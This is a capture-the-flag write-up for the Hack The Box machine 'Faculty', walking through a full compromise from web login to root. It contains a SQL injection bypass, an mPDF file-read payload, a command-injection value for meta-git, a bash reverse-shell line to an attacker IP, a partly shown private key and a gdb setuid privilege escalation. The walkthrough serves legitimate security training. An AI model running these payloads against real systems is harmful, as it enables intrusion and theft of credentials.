 Hello and welcome back to another write up. This one will be for box Faculty from Hackthebox. Without
further adue let's get to it. 

We will start with nmap scan. 

```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-28 13:51 EDT
Nmap scan report for 10.10.11.169 (10.10.11.169)
Host is up (0.059s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e9:41:8c:e5:54:4d:6f:14:98:76:16:e7:29:2d:02:16 (RSA)
|   256 43:75:10:3e:cb:78:e9:52:0e:eb:cf:7f:fd:f6:6d:3d (ECDSA)
|_  256 c1:1c:af:76:2b:56:e8:b3:b8:8a:e9:69:73:7b:e6:f5 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://faculty.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
We have two open ports - 80 which is http and 22 which is ssh. There is not much we can do with ssh so we will focus
on port 80 for now. Nmap shows us hostname faculty.htb so we will add to our `/etc/hosts` file with command 
`echo "10.10.11.169 faculty.htb" >> /etc/hosts`. Now let's visit the page itself. 

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Faculty/images/faculty_web.png?raw=true)

We are presented with login page that runs php. Now we will start feroxbuster
to brute force directories. With knowledge that it is php we will run it with flag that specifies just that. 

```
302      GET      359l      693w        0c http://faculty.htb/ => login.php
301      GET        7l       12w      178c http://faculty.htb/admin => http://faculty.htb/admin/
500      GET        0l        0w        0c http://faculty.htb/test.php
200      GET      132l      235w        0c http://faculty.htb/login.php
200      GET      175l      311w        0c http://faculty.htb/admin/login.php
200      GET        1l        0w        0c http://faculty.htb/admin/download.php
301      GET        7l       12w      178c http://faculty.htb/admin/database => http://faculty.htb/admin/database/
301      GET        7l       12w      178c http://faculty.htb/admin/assets => http://faculty.htb/admin/assets/
200      GET        0l        0w        0c http://faculty.htb/admin/ajax.php
301      GET        7l       12w      178c http://faculty.htb/admin/assets/js => http://faculty.htb/admin/assets/js/
200      GET       70l      105w        0c http://faculty.htb/admin/users.php
200      GET      106l      167w        0c http://faculty.htb/admin/home.php
-----redacted-----
```

There are many pages but for now let's focus on the default one. If I try to guess id it says that it is invalid. 
we will workaround that and try sql injection. With the simpliest `'or 1=1-- -` we get in. We also get PHPSESSID cookie.
There is nothing interesting. So time to move to admin directory which was found from feroxbuster. 

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Faculty/images/faculty_web_admin.png?raw=true)

It is some type of management system. First thing that I noticed is the export functionality because these aren't common
in ctfs if they don't have a purpose. It creates pdf and saves it on the server. 

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Faculty/images/faculty_pdf_export.png?raw=true)

Let's download it and find out if there isn't 
any interesting info about how it is created. For this I used exiftool but there many ways to find this out.

```
# exiftool OKLZOtslJv4TycbW8Xaf50HxIV.pdf 
ExifTool Version Number         : 12.44
File Name                       : OKLZOtslJv4TycbW8Xaf50HxIV.pdf
Directory                       : .
File Size                       : 1742 bytes
File Modification Date/Time     : 2022:10:28 16:23:26-04:00
File Access Date/Time           : 2022:10:28 16:23:26-04:00
File Inode Change Date/Time     : 2022:10:28 16:23:26-04:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Page Layout                     : OneColumn
Producer                        : mPDF 6.0
Create Date                     : 2022:10:28 21:22:02+01:00
Modify Date                     : 2022:10:28 21:22:02+01:00
```

The important thing to note here is the producer - mPDF 6.0. When I first tried to search for vulnerabilities for this version
I couldn't find anything. After that I resorted to looking at github page for this project. After a tidious work we find this
issue(https://github.com/mpdf/mpdf/issues/356) talking about LFI vulnerability caused by injecting annotation tag when generating pdf. (With payload below)

```
 <annotation file="/etc/passwd" content="/etc/passwd"  icon="Graph" title="Attached File: /etc/passwd" pos-x="195" />
```

This looks useful to us. Now we will catch the burpsuite request and change the contents of the request to this payload. 
We see that the parameter payload gets base64 encoded before it gets send. 

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Faculty/images/faculty_burp_1.png?raw=true)

This can be done numerous ways - cyberchef, commandline
or in burp itself. The final request looks like this:

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Faculty/images/faculty_burp_2.png?raw=true)

At first sight it looks like it didn't work but when we look at the attachements on the left there is a passwd which is the file 
we wanted. 

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Faculty/images/faculty_pdf1.png?raw=true)

Now using the same method but changing the file name in payload we will get the source code for the application. We will start with `index.php`. 

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Faculty/images/faculty_source1.png?raw=true)

Now we will download the `login.php` (found in feroxbuster on in the `index.php` file). This one shows 
`include('./db_connect.php');` this looks promising as it is likely to leak some creadentials and as we find out it does. 

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Faculty/images/faculty_db_connect.png?raw=true)

We have now have password which we can try to use with ssh. But to which user does it belong to ? We have users
that are on the box in passwd file we got earlier. Let's grep for users with `/bin/bash` shell.

```
# cat passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
gbyolo:x:1000:1000:gbyolo:/home/gbyolo:/bin/bash
developer:x:1001:1002:,,,:/home/developer:/bin/bash

```

If we try one by one we find that it works for the user gbyolo. Running `sudo -l` as first thing shows us that
we have permission to run meta-git as developer user. 

```
gbyolo@faculty:~$ sudo -l
[sudo] password for gbyolo: 
Matching Defaults entries for gbyolo on faculty:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User gbyolo may run the following commands on faculty:
    (developer) /usr/local/bin/meta-git
```

Meta-git isn't on gtfo bins so we have to look somewhere how to weaponize it. I found this hackerone report - 
https://hackerone.com/reports/728040. With this I'll create bash shell and put it in /tmp/shell.sh

```
gbyolo@faculty:/tmp$ cat shell.sh 
bash -i >& /dev/tcp/10.10.14.141/4242 0>&1
```

Set up a nc listener and run command `sudo -u developer /usr/local/bin/meta-git clone 'sss||bash /tmp/shell.sh'` and we have
connection at our netcat. I could upgrade our shell but since developer has .ssh directory with id_rsa in it, I can just
use that and use it to connect to the box.

```
developer@faculty:~/.ssh$ cat id_rsa
cat id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAxDAgrHcD2I4U329//sdapn4ncVzRYZxACC/czxmSO5Us2S87dxyw
izZ0hDszHyk+bCB5B1wvrtmAFu2KN4aGCoAJMNGmVocBnIkSczGp/zBy0pVK6H7g6GMAVS
pribX/DrdHCcmsIu7WqkyZ0mDN2sS+3uMk6I3361x2ztAG1aC9xJX7EJsHmXDRLZ8G1Rib
KpI0WqAWNSXHDDvcwDpmWDk+NlIRKkpGcVByzhG8x1azvKWS9G36zeLLARBP43ax4eAVrs
Ad+7ig3vl9Iv+ZtRzkH0PsMhriIlHBNUy9dFAGP5aa4ZUkYHi1/MlBnsWOgiRHMgcJzcWX
OGeIJbtcdp2aBOjZlGJ+G6uLWrxwlX9anM3gPXTT4DGqZV1Qp/3+JZF19/KXJ1dr0i328j
saMlzDijF5bZjpAOcLxS0V84t99R/7bRbLdFxME/0xyb6QMKcMDnLrDUmdhiObROZFl3v5
-----snip snip-----
```

Now I downloaded copy of linpeas from my python server. 
```
developer@faculty:/tmp$ wget http://10.10.14.132:8000/linpeas.sh                                                                   
--2022-11-01 20:25:54--  http://10.10.14.132:8000/linpeas.sh
Connecting to 10.10.14.132:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 776073 (758K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh                                                  100%[========================================================================================================================================>] 757.88K  1.04MB/s    in 0.7s    

2022-11-01 20:25:54 (1.04 MB/s) - ‘linpeas.sh’ saved [776073/776073]

developer@faculty:/tmp$ chmod +x linpeas.sh 
developer@faculty:/tmp$ ./linpeas.sh 

```

We find this
```
╔══════════╣ Readable files belonging to root and readable by me but not world readable
-rwxr-x--- 1 root debug 8440200 Dec  8  2021 /usr/bin/gdb                                                                                                                                                                                    
```
No we need to find process to attach to gdb. 
```
developer@faculty:/tmp$ ps -aux | grep root
```
After few tries I found that this can be used:
```
root         729  0.0  0.9  26896 18220 ?        Ss   21:22   0:00 /usr/bin/python3 /usr/bin/networkd-dispatcher --run-startup-triggers

```
I attach it to gdb with 
```
gdb -p <PID>
```
(in my case 729).
Now I found that to call function from gdb (https://www.zeuthen.desy.de/dv/documentation/unixguide/infohtml/gdb/Calling.html) you can use `call $expr`
So the final exploit looks like this:

```
developer@faculty:/tmp$ gdb -p 729
(gdb) call ("chmod +s /bin/bash")

```
This makes bash setuid and with tag -p it keeps permission so I get root shell.

```
developer@faculty:/tmp$ ls -la /bin/bash
-rwsr-s--x 1 root root 1183448 Apr 18  2022 /bin/bash
developer@faculty:/tmp$ /bin/bash -p
bash-5.0# id
uid=1001(developer) gid=1002(developer) euid=0(root) egid=0(root) groups=0(root),1001(debug),1002(developer),1003(faculty)
bash-5.0# cat /root/root.txt
887e---redacted-------
```
This wraps up the box.
Thank you for reading this write up. If you have any questions, feedback or suggestion or just want to play ctfs with someone you can reach out to me at
https://twitter.com/Vojtech1337